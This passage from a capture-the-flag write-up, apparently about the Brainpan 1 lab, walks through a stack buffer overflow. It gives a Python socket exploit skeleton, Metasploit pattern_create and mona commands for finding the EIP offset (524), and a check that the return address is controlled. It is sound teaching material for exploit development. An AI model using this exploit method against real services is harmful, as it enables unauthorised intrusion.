 To find the `eip` offset and control the flow of execution we build a exploit skeleton.

````py
import socket

ip = "192.168.1.69"
port = 9999

offset = 0
overflow = "A" * offset
retn = "" 
padding = "\x90" * 0
payload = ""
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    s.recv(1024)
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
````

Generate a unique pattern with `metasploit` tools

````shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 700
````

This is the pattern we are going to use as initial payload to find the `eip` offset.

We run the exploit against the service while attached to `immunity` debugger and use the `mona` command to find the offset.

````shell
!mona findmsp -l 700
````

![eip](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/brainpan1/bpn6.png)

To verify we have the correct offset we modify the exploit, setting the `offset` variable to 524, the `payload` empty and `retn` to `BBBB` and run the exploit again. In `immunity` we can see

![bbbb](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/brainpan1/bpn7.png)

We have control over the flow of execution.

### Bad Characters

